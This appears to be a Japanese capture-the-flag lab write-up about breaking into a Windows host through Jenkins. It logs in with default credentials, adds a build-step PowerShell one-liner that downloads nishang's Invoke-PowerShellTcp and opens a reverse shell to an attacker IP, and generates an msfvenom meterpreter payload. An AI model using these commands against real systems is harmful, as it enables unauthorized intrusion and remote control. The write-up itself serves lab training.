 8080 番で Jenkins が動いていました

![スクリーンショット 2020-05-02 19.42.40.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/1eb983a0-cb4b-70ad-7768-f4178db394c7.png)

適当に admin/admin を入力すれば通りました

## Invoke-PowerShellTcp.ps1を使ってshellをとる

有名な nishang のスクリプトを使って shell をとります
https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

Jenkins は CI/CD のツールです。config 内で build の時に実行するスクリプトを指定できるので以下のコマンドを指定しておきます。

```powershell:
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.66.152:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.66.152 -Port 4242
```

1. `http://10.10.66.152:8000/Invoke-PowerShellTcp.ps1`をダウンロード
2. Invoke-PowerShellTcp を実行（10.10.66.152:4242 に接続）

ということをしています。

①用に `Invoke-PowerShellTcp.ps1` を DL して `python -m SimpleHTTPServer` を立てておきます

```:shell1
root@kali:~# wget https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
root@kali:~# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

②用に nc で待ち構えておきます。

```:shell2
root@kali:~# nc -lnvp 4242
listening on [any] 4242 ...                                                                                                                                                    

```
build を Jenkins 側で実行するとうまく shell が取れました


```:shell2
connect to [10.10.66.152] from (UNKNOWN) [10.10.143.57] 49207
Windows PowerShell running as user bruce on ALFRED
Copyright (C) 2015 Microsoft Corporation. All rights reserved.
PS C:\Program Files (x86)\Jenkins\workspace\project>
```

これで user.txt が取れます。

## msfvenomでmeterpreterにつなぎ直す
meterpreter に接続し直したいので、msfvenom を使います

```
root@kali:~# msfvenom -p windows/meterpreter/reverse_tcp -a x86 LHOST=10.10.66.152 LPORT=1111 -f exe -o sheshe.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
Saved as: sheshe.exe
root@kali:~# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```
